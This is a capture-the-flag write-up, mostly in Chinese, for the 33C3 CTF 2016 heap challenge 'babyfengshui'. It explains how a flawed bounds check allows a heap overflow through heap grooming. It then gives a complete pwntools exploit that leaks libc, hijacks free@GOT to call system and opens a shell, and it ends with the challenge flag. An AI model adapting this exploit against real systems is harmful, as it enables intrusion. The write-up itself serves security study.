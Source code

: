 ```yaml
---
title: '[33C3 CTF 2016] babyfengshui 150'
author: bruce30262
tags:
  - pwn
  - heap
  - heap overflow
  - GOT hijacking
  - 33C3 CTF 2016
categories:
  - write-ups
date: 2016-12-31
layout: post
---
```

## Info  
> Category: pwn
> Point: 150
> Author: bruce30262 @ BambooFox

## Analyzing
32 bit ELF, Partial RELRO, canary & NX enabled, 沒 PIE

程式選單 :
```
$ ./babyfengshui
0: Add a user
1: Delete a user
2: Display a user
3: Update a user description
4: Exit
```
Add a user:
```
Action: 0
size of description: 50 <-- max length of description
name: AAAA 
text length: 12 <-- actual length of description
text: 1234
```
Show a user:
```
Action: 2
index: 0 <-- user's index
name: AAAA
description: 1234
```
Update a user:
```
Action: 3
index: 0
text length: 10 <-- new length of the description
text: 1234567890
```
`user` 的 data structure
```c 
struct user{
    char* desc;
    char name[124];
};
```
程式在 delete user 的時候除了會 free 掉 `user->desc` 和 `user` 本身之外，還會將 `user` pointer 清成 0，因此這題並不存在 Use-After-Free 的漏洞。

程式在設置 `user->desc` 的時候有一個很奇怪的 protection:
```c
// users = struct user *users[]
 if ( &users[id]->desc[text_len] >= &users[id] - 4 )
 {
   puts("my l33t defenses cannot be fooled, cya!");
   exit(1);
 }
 printf("text: ");
 read_n(users[id]->desc, text_len + 1);
```
這段程式碼的意思是，`user->desc` 這個 pointer + `text_len` 必須小於 `user` 這個 pointer。感覺程式是想用這段程式碼來防止 `user` 被 `user->desc` 覆寫 ( 避免 heap overflow )。

可是這段保護真的有用嗎 ?

## Exploit

如果我們有辦法排出下圖的 heap memory layout:
```
            +-----------------------+
userD->desc |                       |
            |                       |
            +-----------------------+
            |            userB->desc| userB
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userC->desc| userC
            |                       |
            |                       |
            |                       |
            +-----------------------+
            |            userD->desc| userD
            |                       |
            |                       |
            |                       |
            +-----------------------+
```

根據那段保護的程式碼，`userD->desc + text_len` 必須小於 `userD`。我們可以看到 `userD->desc` 離 `userD` 有一段距離，中間還包含了 `userB` 和 `userC` 這兩個 data structure，說明我們其實可以覆寫掉整個 `userB` 和 `userC`。

這裡只要對 malloc.c 的 memory allocation 機制熟悉的話，要排出上圖的 heap memory layout 並不難。之後只要透過上述的 heap overflow 方式，我們就可以改掉 `userB->desc` 這個 data pointer，進而做到任意讀寫，剩下的就是做 GOT hijacking 拿 shell。

```python exp_baby.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "78.46.224.83"
PORT = 1456
ELF_PATH = "./babyfengshui_noalarm"
LIBC_PATH = "./libc-2.19.so"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def add_user(desc_len, name, text_len, text):
    r.sendlineafter("Action: ", "0")
    r.sendlineafter("description: ", str(desc_len))
    r.sendlineafter("name: ", name)
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

def del_user(index):
    r.sendlineafter("Action: ", "1")
    r.sendlineafter("index: ", str(index))

def show_user(index):
    r.sendlineafter("Action: ", "2")
    r.sendlineafter("index: ", str(index))

def update_user(index, text_len, text):
    r.sendlineafter("Action: ", "3")
    r.sendlineafter("index: ", str(index))
    r.sendlineafter("length: ", str(text_len))
    r.sendlineafter("text: ", text)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_user(50, "A"*123, 12, "a"*12)
    add_user(50, "B"*123, 12, "b"*12) 
    add_user(50, "C"*123, 12, "sh\x00") # user[2], desc = "sh\x00" (for later's GOT hijacking)
    del_user(0)
    add_user(90, "D"*123, 12, "d"*12)
    add_user(50, "E"*123, 0x100, "i"*0xf8 + p32(elf.got['__libc_start_main'])) 
    # now user[4]'s desc is user[0]'s desc (in previous)
    # user[4]->desc + 0x2c8 = user[4], which means we can overflow user[4]->desc & overwrite user[1]->desc to libc_start_main@got.plt

    # leak address
    show_user(1)
    r.recvuntil("description: ")
    libc.address += u32(r.recv(4)) - libc.symbols['__libc_start_main']
    system_addr = libc.symbols['system']
    log.success("libc: "+hex(libc.address))
    log.success("system: "+hex(system_addr))
    
    # change user[1]->desc into free@got.plt
    # hijack free's got, then free user[2] to get shell
    update_user(4, 0x100, "i"*0xf8 + p32(elf.got['free']))
    update_user(1, 5, p32(system_addr))
    del_user(2)

    r.interactive()
```

flag: `33C3_h34p_3xp3rts_c4n_gr00m_4nd_f3ng_shu1`